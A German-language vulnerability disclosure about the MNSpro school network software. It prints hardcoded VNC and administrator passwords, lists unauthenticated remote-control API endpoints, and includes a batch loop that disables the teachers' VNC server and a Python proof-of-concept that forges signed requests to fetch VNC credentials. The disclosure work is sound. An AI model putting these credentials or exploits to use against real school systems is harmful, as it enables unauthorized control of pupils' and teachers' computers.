


# Sicherheitslücken in der Software MNSpro Schulnetzwerk

MNSpro ist eine Software die das Verwalten von Computern für Schüler
in Schulen einfach ermöglichen soll. 
Neben eines obligatorisch im Netzwerk eingesetzten Proxyservers 
zur Filterung von nicht jugendfreien, so wie den Unterricht störenden 
Inhalten (z.B. soziale Netzwerke), ist, damit Lehrer die Computer der 
Schüler steuern können, ist auf allen Computern der "MNSpro-Clientservice" 
installiert.
Da über diesen Dienst z.B. aus der Ferne Programme gestartet werden
können, wäre eine Sicherheitslücke in diesem Teil besonders 
katastrophal.

## Sicherheitslücken

Folgende Sicherheitslücken wurden entdeckt:

 - Statisches Passwort im VNC-Server des MNSpro-Clientservice
 - Mögliche Sicherheitslücke: Statisches Passwort eines Administratorkontos
 - Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (1)
 - Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (2) und 
   mangelhafte Berechtigungsprüfung der MMNpro-Lehrersoftware
 - Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (3)
 
<blockquote class="note">
    Welche Auswirkungen haben diese Sicherheitslücken eigentlich ganz praktisch?
    Lesen Sie dies in dem Kurzartikel über die
    <a href="/sicherheit/mnspro/auswirkungen">Auswirkungen der Sicherheitslücken in MNSpro</a>.
</blockquote>
 
## Statisches Passwort im VNC-Server des MNSpro-Clientservice

Zu dem MNSpro-Clientservice gehört ein VNC-Server, über welchen ein 
Computer ferngesteuert werden kann. Da auch z.B. ein Administrator 
einen Lehrercomputer steuern können soll, wird dieser auch auf 
wirklich jedem Computer mit MNSpro-Clientservice gestartet.

Als VNC-Server wird TightVNC von Constantin Kaplinsky eingesetzt. 
Die VNC-Verbindungen sind mit einem Passwort geschützt, welches in 
der Windows-Registry mit DES-Verschlüsselt unter 
`HKEY_CURRENT_USER\Software\TightVNC\Server` hinterlegt ist. 
Da für die Passwortverschlüsselung ein ebenfalls fester Schlüssel 
verwendet wird konnte das Passwort `aix#1234` erfolgreicht 
entschlüsselt werden.

| Verbindungsparameter | Wert       |
|-------------------|------------|
| Port              |      5912¹ |
| Passwort          | `aix#1234` |

Bemerkung:

> ¹ eigentlich 5912 + eine "Sitzungsnummer", 
> diese kann über eine API vom Domain Controller abgerufen werden


Der VNC-Server kann auch als normaler Benutzer beendet werden, sodass
dieser nicht mehr von Lehrkörpern benutzt werden kann.

```batch
@ECHO OFF
:START

REM   Fehlermeldungen bei bereits beendeten Prozess unterdrücken.
taskkill /F /T /IM tvnserver.exe 2> NUL

REM   10 Sekunden warten
ping -n 10 0.1.2.3 > NUL

GOTO :START
```

AixConcept erklärte nach Kontaktaufnahme über den 
Netzwerkadministrator, dass das Problem schon länger intern bekannt 
sei und zukünftig auf eine auf eine neue Realisierung gesetzt werde.
Nach ungefähr fünf Wochen wurde das Problem behoben. AixConcept
schrieb dazu folgendes:


> […] 
>
> aus Sicherheitsgründen und neuen Datenschutzbestimmungen steht das Modul „Unterrichtszentrale“ zur Überwachung der Schülerbildschirme, derzeit nicht zur Verfügung!
> 
> Wichtige Änderungen sind z.B. dass bei dem Schüler, der ferngesteuert wird, ein Symbol blinkt, so dass er sehen kann, dass er überwacht wird.
> Beim Zugriff auf einen angemeldeten Lehrer muss die Überwachung vom Lehrer genehmigt werden.
>
> […]


Daraus erfolgten Verzögerungen im Unterrichtsgeschehen.

### Zusammenfassung

| Art              | Broken Authentication / Remote-Code-Execution |
|------------------|--------------------------------|
| Schwere (CVSS)   | 8.2/10                         |
| Datum Entdeckung | Mitte 2016                     |
| Datum Behebung   | Mitte 2016 (Zeitraum 5 Wochen) |

<small>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:L/IR:L/AR:L</small>

[](AIX-1.png)
[](AIX-2.png)
[](AIX-3.png)

## Mögliche Sicherheitslücke: Statisches Passwort eines Administratorkontos

Der auf Microsoft-Forefront basierende Schulfilter kann über eine 
Weboberfläche (erreichbar mit HTTPS unter Port 8443 des Proxyservers) 
verwaltet werden. 
Außerdem kann in der Weboberfläche die Verbindung zum ActiveDirectory getestet 
werden. 
Die dafür verwendeten Anmeldedaten sind einfach aus der Testseite auszulesen.

| Nutzername    | Passwort       |
|---------------|----------------|
| `tifadmin`    | `!mnstifadmin` |

Dieses Nutzerkonto ist zwar ein gültiges Windowskonto und wird von 
MNSpro als Administratorkonto erkannt, trotzdem ist die Verwaltungssoftware 
damit nicht ausführbar. Trotzdem sind die von MNSpro hinzugefügten "Schutzmaßnahmen",
wie die deaktiviert Kommandozeile, Blockierung von `Regedit` und das Verstecken der 
Festplatte `C:`, nicht aktiv (diese können jedoch sowieso meist trivial umgangen 
werden).
Die genauen Berechtigungen des Kontos sind damit unklar. 

Statische, voreingestellte Passwörter entsrpechen nicht gängiger Praxis.

AixConcept wurde über den Systemadministrator der Schule 
kontaktiert. 

### Zusammenfassung

| Art              | Broken Authentication          |
|------------------|--------------------------------|
| Schwere (CVSS)   | ?/10                           |
| Datum Entdeckung | Früher September 2016          |
| Datum Behebung   | unklar                         |

Bemerkung:

> Zeitweise war eine Anmeldung über das Konto nicht mehr möglich. 
> In der mir zugänglichen Installation ist die Anmeldung jetzt wieder möglich.

### Workaround

Das Konto `tifadmin` kann entfernt oder als Windowskonto deaktiviert werden.

## Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (1)

Der MNSpro-Clientservice stellt für bestimmte Funktionen der Lehrer-
software eine REST-HTTP-Api bereit. Es gibt folgende Endpunkte:

 - VNC-Passwort: `/api/getRemotingCredentials`
 - Screenshot (löst Warnung aus): `/api/GetScreenshot?width=[Breite]&height=[Höhe]&user=[Nutzer]&machine=[Computername]`
 - Sperrt Bildschirm: `/api/LockDesktop`
 - Entsperrt Bildschirm: `/api/UnlockDesktop`
 - Sperrt-/Entsperrt optische Laufwerke: `/api/SetCdRomState?enable=[False/True]`
 - Sperrt-/Entsperrt USB: `/api/SetUsbState?enable=[False/True]`
 - Sperrt-/Entsperrt Internetzugang: `/api/SetInternetState?enable=[False/True]`
 - Setzt Ton: `/api/SetVolumeInformation?ismute=[True/False]&volume=[Lautstärke]`
 
Ursprünglich waren diese Endpunkte nur durch eine zufällige Portnummer 
im Bereich 50 000 - 60 000 "geschützt" (welche außerdem über eine API auf dem
Domain Controller abrufbar ist). Damit war eine vollständige 
Kontrolle aller Computer möglich.

Nach Mitteilung wurde plötzlich die Sicherheitslücke behoben - wieder 
mit Ausfällen, da die der Schutz erst in dem Clientservice und erst einige 
Tage danach in der Lehrersoftware hinzugefügt wurde.

### Zusammenfassung

| Art              | Broken Authentication / Remote-Code-Execution |
|------------------|--------------------------------|
| Schwere (CVSS)   | 8.2/10                         |
| Datum Entdeckung | Mitte 2017                     |
| Datum Behebung   | Mitte 2017                     |

<small>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:L/IR:L/AR:L</small>

## Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (2)

Die MNSpro-Clientsoftware enthielt als Reaktion auf vorherige 
Sicherheitslücke eine Authentifizierung. Diese besteht darin aus einem 
im Quellcode stehenden "geheimen", aber geteiltem Schlüssel, der Zeit (zum 
Replay-Schutz), der URL, der HTTP-Methode und dem SHA256-Hash eventueller
POST-Daten einen Einmalschlüssel zu generieren.

Da entsprechende Funktion sogar aus den mitgelieferten DLLs "exportiert"
ist, ist auch diese Sicherheitslücke trivial auszunutzen.

```python
import clr

clr.AddReference("System.Net.Http")
clr.AddReference("System.Threading")
clr.AddReference("AixConcept.Toolbox")

from System.Net.Http import HttpClient, HttpRequestMessage, HttpMethod
from System.Threading import CancellationToken
from AixConcept.Toolbox.Hmac import *

h = HmacSigningHandler(AixSecretRepository(), CanonicalRepresentationBuilder(), HmacSignatureCalculator())
h.AppId = "AixConcept-UZ-API"
h.UseProxy = False
s = RequestContentSHA256Handler()
s.InnerHandler = h
client = HttpClient(s)

if __name__ == "__main__":
    print ("Bitte Service-URL eingeben (abzurufen unter http://10.1.0.0:.../api/GetClientSessions):")
    service_url = input('http://')
    url = "http://%s/api/GetRemotingCredentials" % service_url
    print ("Sende Anfrage an %s..." % url)
    res = client.SendAsync(HttpRequestMessage(HttpMethod.Get, url), CancellationToken() )
    print (res.Result.Content.ReadAsStringAsync().Result)
```

Der Hersteller wurde am 19.09.2017 mit Proof-of-Concept Exploit 
kontaktiert. Nach einigen Wochen wurde auf telefonischer Nachfrage 
Rücksprache vereinbart, die allerdings nie erfolgte.

Die Lücke wurde stillschweigend behoben. Allerdings wurde 
"nur" der konkrete Exploit unmöglich gemacht. Außerdem wurde
der "geheime", im Quelltext stehende Schlüssel geändert.

### Zusammenfassung

| Art              | Broken Authentication / Remote-Code-Execution |
|------------------|--------------------------------|
| Schwere (CVSS)   | 8.2/10                          |
| Datum Entdeckung | September 2017                 |
| Datum Kontakt    | 19. September 2017             |
| Datum Behebung   | Oktober - November 2017        |

<small>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:L/IR:L/AR:L</small>

## Mangelhafte Berechtigungsprüfung des MNSpro-Clientservice (3)

Entsprechende Funktionen werden als Reaktion nicht mehr 
vollständig exportiert und es wird geprüft, ob das 
aufrufende Programm von AixConcept signiert ist. Außerdem 
wurde, wie bereits genannt, der "geheime", geteilte, im Quelltext stehende
Schlüssel geändert. 

Diese Programmteile konnten wieder erfolgreich nachgebildet werden,
somit liegt wieder Vollzugriff vor.

Nach Kontakt am 10.01.2018 stellte sich heraus, dass auch 
diese Sicherheitslücke intern bereits bekannt ist und auch 
schon dort behoben sei.

Die konzeptmäßig unsichere Anmeldemethode soll jedoch die gleiche 
bleiben, allerdings soll der Schutz gegen Reverse Engineering
verbessert werden.

| Art              | Broken Authentication / Remote-Code-Execution |
|------------------|--------------------------------|
| Schwere (CVSS)   | 8.6/10                         |
| Datum Entdeckung | 20. Dezember 2017              |
| Datum Kontakt    | 10. Januar 2018                |
| Datum Behebung   | NOCH OFFEN                     |

<small>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:U/RC:C/CR:L/IR:L/AR:L</small>

## Sonstige Schwachstellen

Eine konzeptionelle Schwachstelle ist, dass darauf gesetzt wird, 
dass die Lehrersoftware nicht unbefugt gestartet werden kann. 
Bis zur Behebung der dritten mangelhaften Berechtigungsprüfung 
des MNSpro-Clientservice war die Überprüfung der Berechtigung der 
Lehrersoftware wie folgt:

 - HTTP-REST-Anfrage an den Domain Controller ob der angemeldete Nutzer Lehrer 
   und / oder Administrator ist. 
 - Außerdem wird eine unverschlüsselte LDAP-Anfrage durchgeführt.
 
Mit aktiven MitM-Angriffen könnte so als Schüler weitgehender 
Zugriff erlangt werden. Auch dieses soll intern bereits behoben sein.
